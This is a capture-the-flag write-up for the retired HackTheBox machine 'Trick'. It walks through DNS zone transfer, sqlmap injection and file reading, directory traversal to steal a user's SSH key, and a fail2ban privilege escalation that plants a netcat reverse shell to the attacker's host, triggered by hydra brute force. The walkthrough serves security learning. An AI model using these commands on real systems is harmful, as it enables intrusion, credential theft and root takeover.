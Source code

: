 # Trick HackTheBox Writeup

**This writeup was completed after retirement of the machine, so it's all compiled from notes I took while hacking. It may not be fully complete, but it should outline the fundamentals of how to gain user/root access** 


We begin with a basic port enumeration:
```
Nmap 7.92 scan initiated Tue Oct 11 12:59:23 2022 as: nmap -A -T4 -p- -sC -sC -oA ../../nmap.results 10.10.11.166
Nmap scan report for 10.10.11.166
Host is up (0.080s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 11 13:01:30 2022 -- 1 IP address (1 host up) scanned in 126.61 seconds
```
And see that there are 4 ports open:
* 22 -> we have ssh service running
* 25 ->
* 53 -> Some type of DNS service
* 80 -> Web service thats running with Bootstrap and nginx

Let's see if we can query the DNS to obtain the domain name:
```
::~/repos/HTB$ nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
```

* The DNS service has been shotty, Ive nmapped the box multiple times, and sometimes the DNS service is not running.
Because we know DNS is running, and have the domain name, we can dig for more CNAME records to obtain more hostnames and DNS mappings:
```
$ dig trick.htb axfr @10.10.11.166
; <<>> DiG 9.18.7-1-Debian <<>> axfr trick.htb @trick.htb
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 80 msec
;; SERVER: 10.10.11.166#53(trick.htb) (TCP)
;; WHEN: Tue Oct 11 13:15:10 MST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```
With this, we see another CNAME record for preprod-payroll.trick.htb... Lets add this to our /etc/hosts , along with trick.htb, and check out the site. 


Okay we play around and find that we can inject some stuff with sqlmap. First we inspect elements on the login page whilst we send a faulty login request. We go to the network tab and see this ajax.php?action=login request occuring when we click the login button. We can right click this and copy as a cURL request. Then copy that cURL command into the terminal, and change the cURL command to sqlmap... This will show us vulnerabilities. We can then add things like --dbs to see the databases and see one for 'payroll' so then go back to the same command once again and instead of --dbs we can do -D payroll_db --tables to see info about the tables in this database. Then same command with something like -D payroll_db -T users --dump to see the users table in here. It even shows us a password for this user.

But okay we can login as this user and not do much, and the creds dont work for SSH. So lets enumerate the website further and check to see if there are more preprod-* links....
```
$sed 's/^/preprod-/' /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt > preprod_wordlist
$wfuzz -c -w preprod_wordlist -H "Host: FUZZ.trick.htb" -u 10.10.11.166 -t 100 --hl 83
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.166/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000254:   200        178 L    631 W      9660 Ch     "preprod-market
                                                        ing"

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0

```

We see a succesful request for preprod-marketing, so lets add this to /etc/hosts and check out the website...
We move around the links and see that the page is managed with a parameter "page=" so there maybe some type of injection we can perform but it has protection agains a basic ../../../../../etc/passwd style example grab. So, lets also check it out with sqlmap to see what we can do...
sqlmap output:
```
$sqlmap --url "preprod-marketing.trick.htb/ajax.php?action=login" --data "username=test&password=test" --file-read "/var/www/market/index.php" --batch


[18:22:12] [INFO] retrieved: 194
[18:22:29] [INFO] the local file '/home/greeb/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php' and the remote file '/var/www/market/index.php' have the same size (194 B)
files saved to [1]:
[*] /home/greeb/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php (same file)
```
We can retreive files from this 

file grabbed with sqlmap:
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
	include("/var/www/market/".str_replace("../","",$file));
}
?>


It looks as though it replaces all of the '../' sequences, with a comma ',' .Theres a workaround to this on payloadallthethings directory traversal methods. We can obtain /etc/passwd like so:

>http://preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd


We have a user michael with their own home directory, lets see if we can obtain their ssh creds

>http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa

Yup theyre there, lets put em in a file and login...
```
curl "http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa" >> michael_id_rsa
```
now let's login:
```
$ssh michael@trick.htb -i michael_id_rsa
```
Now we have the user flag...

We explore around and see what commands we can run:
```
michael@trick.htb:~$sudo -l
```
and see that we can run 
/etc/init.d/fail2ban restart

Well there are plenty of ways we can privesc through fail2ban, one in particular would be a reverse shell picked up through netcat on our attacking machine...

There are two files in particular we want to look at:
```
/etc/fail2ban/jail.conf
/etc/fail2ban/action.d/iptables-multiport.conf
```
jail.conf will have all of the rules/parameters for banning listed...
We see that bans occur for a short period of time and also occur when failed ssh creds are entered 5 times as a retry.

So we can edit the /etc/fail2ban/action.d/iptables-multiport.conf file and change the actionban line to something like:
```
actionban = /usr/bin/nc 10.10.x.x 1337 -e /usr/bin/bash
```
to allow for a reverse shell to be picked up after a ban.  Now we can run:
```
$sudo /etc/init.d/fail2ban restart to restart the service.
```
I setup netcat to listen on my attacking machine...
```
$nc -lpvn 1337
```
Then use hydra, also on my attacking machine, to bruteforce an ssh login attempt because the retries will take too long by hand to get banned.
```
$hydra -l janice -P /usr/share/seclists/Passwords/chooseAList trick.htb ssh
```
Then we get a reverse shell with root privs picked up through netcat... And we have the flag at root/root.txt

